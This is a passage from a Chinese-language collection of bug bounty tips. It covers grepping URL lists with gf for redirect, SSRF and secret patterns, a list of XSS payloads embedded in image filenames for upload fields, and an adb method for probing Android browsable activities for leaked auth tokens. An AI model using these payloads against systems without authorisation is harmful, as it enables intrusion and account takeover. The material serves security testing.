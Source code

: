 这些都是有效的电子邮件地址（你可以在电子邮件地址验证器中检查它们，例如这里 \[80\]）。\[...\]

**提示**。查阅这个 \[81\]bug 赏金提示，了解一些良好的有效 payloads 实例。

## 59\. 用 gf 搜索有趣的参数

By @HackersOnDemand\[82\] Source: link\[83\]

你是否有大量从其他工具输出的 URL 列表？

使用 gf\[84\] 工具 (由 @tomnomnom\[85\] 制作) 来搜索有趣的参数，有可能受到开放重定向、SSRF 等的影响。

```bash
cat url-list.txt | gf redirects
```

![图片](assets/1710308628-fba1b2afb92c3693420a0840c2e926f0.png)

现在我们可以关注这些 URL，并详细测试它们的开放重定向漏洞。  

请注意，对于这个提示，你将需要额外的 gf 模式（由 @1ndianl33t\[86\] 制作），你可以从这里获得。

•https://github.com/1ndianl33t/Gf-Patterns

确保将所有这些.json 文件复制到你的～/.gf/ 目录下，这样 gf 就能找到它们。

**提示**。同时，你还可以使用 gf-secrets 模式（由 @dwiswant0\[87\] 制作），它可以识别各种 API 密钥、秘密和访问令牌。

•https://github.com/dwisiswant0/gf-secrets

## 60\. 以图像文件名作为 XSS 有效 payloads

By @h4x0r\_dz\[88\] Source: link\[89\]

如果你发现一个图片的文件上传功能，可以尝试在文件名中引入一个带有 XSS（跨站脚本）有效 payloads 的图片，比如这样。

```bash
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

请注意，这可能只在基于 UNIX 的系统上工作，因为 Windows 不接受特殊字符作为文件名。然而，作为一种反射的 XSS，它应该普遍适用。

## 61\. 在 Android 应用中打开任意 URL

By @mem3hack\[90\] Source: l\[91\]ink\[92\]

寻找一种简单的方法来打开 Android 应用中的任意 URL？

1. 下载 jadx 反编译器并安装 adb。2. 打开 AndroidManifest.xml3. 查找所有浏览器活动（必须包含 `<category andoid:name="android.intent.category.BROWSABLE"/>`）。 为每个活动（或您的任何域）运行 "`adb shell am start -n app_package_name/component_name -a android.intent.action.view -d google.com`"。同时在 Burp 中跟踪任何对 google.com 或你的域名的请求。4. 如果一个域名被打开，这意味着你发现了一个漏洞！现在检查请求是否包含任何 auth 令牌 (如果是，说明你的账户被接管了！)。没有？尝试不同的技术来获取任何 PII。在最坏的情况下，如果你能在一个应用程序中打开任意链接，你会得到像 XSS 一样的奖励。

请注意，我们可以使用 apktool 来代替 jadx 反编译器，它有更好的能力从 APK 中解码 AndroidManifest.xml 文件。
